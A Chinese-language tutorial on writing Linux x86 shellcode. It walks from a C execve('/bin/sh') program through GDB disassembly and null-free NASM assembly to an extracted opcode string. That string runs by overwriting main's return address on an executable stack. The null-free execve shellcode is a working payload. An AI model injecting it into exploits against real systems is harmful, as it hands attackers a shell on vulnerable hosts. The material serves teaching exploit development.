 # Shellcode  

----------------------------------

### 0x00 前言  
介绍 shellcode 的编写。  
Shellcode实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。另外，Shellcode一般是作为数据发送给受攻击服务器的。


### 0x01 shellcode的作用 
shellcode是一段代码，是一段机器可以执行的二进制(opcode)，当我们通过二进制漏洞挖掘，找到一个可以利用的漏洞后，就需要我们编写shellcode，来执行一些功能或者是提权操作。


### 0x02 一段 C 的利用程序  
我们想通过一段代码来获取一个shell，写一段 C 的利用程序：
	
	#include <stdio.h>

	int main() {
		char* happy[2];
		happy[0] = "/bin/sh";
		happy[1] = NULL;

		execve(happy[0], happy, NULL);
	
		return 0;
	}
	
这段代码可以获得一个 `sh` 的shell：

	[root@CentOS7x86 test]# gcc 2.c -o xx
	[root@CentOS7x86 test]# ./xx 
	sh-4.2# 
	
通过 GDB 反汇编代码，分析一下程序的流程，便于我们写汇编代码以提取shellcode：

	[root@CentOS7x86 test]# gdb xx 
	gdb-peda$ disas main
	Dump of assembler code for function main:
	   0x08048420 <+0>:		push   ebp
	   0x08048421 <+1>:		mov    ebp,esp
	   0x08048423 <+3>:		and    esp,0xfffffff0
	   0x08048426 <+6>:		sub    esp,0x20
	   0x08048429 <+9>:		mov    DWORD PTR [esp+0x18],0x80484f4
	   0x08048431 <+17>:	mov    DWORD PTR [esp+0x1c],0x0
	   0x08048439 <+25>:	mov    eax,DWORD PTR [esp+0x18]
	   0x0804843d <+29>:	mov    DWORD PTR [esp+0x8],0x0
	   0x08048445 <+37>:	lea    edx,[esp+0x18]
	   0x08048449 <+41>:	mov    DWORD PTR [esp+0x4],edx
	   0x0804844d <+45>:	mov    DWORD PTR [esp],eax
	   0x08048450 <+48>:	call   0x8048310 <execve@plt>
	   0x08048455 <+53>:	mov    eax,0x0
	   0x0804845a <+58>:	leave  
	   0x0804845b <+59>:	ret    
	End of assembler dump.

通过分析后，是将 `/bin/sh` 压入栈，然后放入到该字符串地址放入到 ebx 中，将命令行参数放入到 ecx 中，将环境变量指针放入 edx 中，将 11 放入 eax 中，然后通过 `int 80` 调用软中断，调用系统调用 `execve`


### 0x03 提取shellcode
分析完上面的反汇编代码后，我们就可以通过编写汇编代码，或者是 C 的内联汇编来编写利用程序提取 shellcode。（这里用x86汇编，nasm编译）

	section .text
	global _start

	_start:				;_start
	xor eax, eax
	push eax			;push \x00
	push 0x68732f2f		;push //sh
	push 0x6e69622f		;push /bin
	mov ebx, esp		;ebx = esp	address of "/bin//sh"
	push eax			;push \x00
	push ebx			;push address of "/bin//sh"
	mov ecx, esp		;ecx = esp	address of array
	xor edx, edx		;edx = 0
	mov al, 0xb			;al = 11	execve system call
	int 0x80			;soft irq

	;ebx: 可执行文件路径的指针
	;ecx: 命令行参数的指针
	;edx: 环境变量的指针

	;nasm -f elf 3.asm
	;ld -o xx 3.o

在编写 shellcode 的时候要避免一些不可用字符，比如 `\0` 字符出现在shellcode中，当漏洞程序使用字符串处理函数进行处理时，就会造成截断情况。所以上面部分在为 `/bin/sh` 加入 `\0` 字符时，是先将 `xor eax, eax`，再将 eax 压入栈中截断字符串。  
（PS：这里 `/bin/sh` 改为 `/bin//sh` 压入栈，也是避免不可用字符； `/bin//sh` 的效果和 `/bin/sh` 一样）

执行效果：  
	
	[root@CentOS7x86 test]# nasm -f elf 3.asm
	[root@CentOS7x86 test]# ld -o xx 3.o
	[root@CentOS7x86 test]# ./xx 
	sh-4.2# 

现在开始提取shellcode，linux下使用 `objdump -d` 可以得到程序的反汇编代码和对应的 opcode：

	[root@CentOS7x86 test]# objdump -d xx 

	xx：     文件格式 elf32-i386


	Disassembly of section .text:

	08048060 <_start>:
	 8048060:	31 c0                	xor    %eax,%eax
	 8048062:	50                   	push   %eax
	 8048063:	68 2f 2f 73 68       	push   $0x68732f2f
	 8048068:	68 2f 62 69 6e       	push   $0x6e69622f
	 804806d:	89 e3                	mov    %esp,%ebx
	 804806f:	50                   	push   %eax
	 8048070:	53                   	push   %ebx
	 8048071:	89 e1                	mov    %esp,%ecx
	 8048073:	31 d2                	xor    %edx,%edx
	 8048075:	b0 0b                	mov    $0xb,%al
	 8048077:	cd 80                	int    $0x80


### 0x04 执行 
上一步中得到了 opcode，可以利用了：

	char shellcode[] = 
		"\x31\xc0"
		"\x50" 
		"\x68\x2f\x2f\x73\x68"
		"\x68\x2f\x62\x69\x6e"
		"\x89\xe3"
		"\x50"
		"\x53"
		"\x89\xe1" 
		"\x31\xd2"
		"\xb0\x0b"
		"\xcd\x80";

	int main() {
		int *ret;

		ret = &ret + 2;
		*ret = shellcode;

		return 0;
	}

执行效果：  
（这里编译的时候加上 `-z execstack` 让栈上可执行，我们的shellcode的起始位置是`main`的返回地址的位置，位于栈上（全局变量区））

	# gcc 4.c -z execstack -o xx 
	# ./xx 
	sh-4.2# 

ok.


</br>

-----------------------------------  
References:  
《The shellcoder's handbook》

Author: xx  
Time: 2017.4.19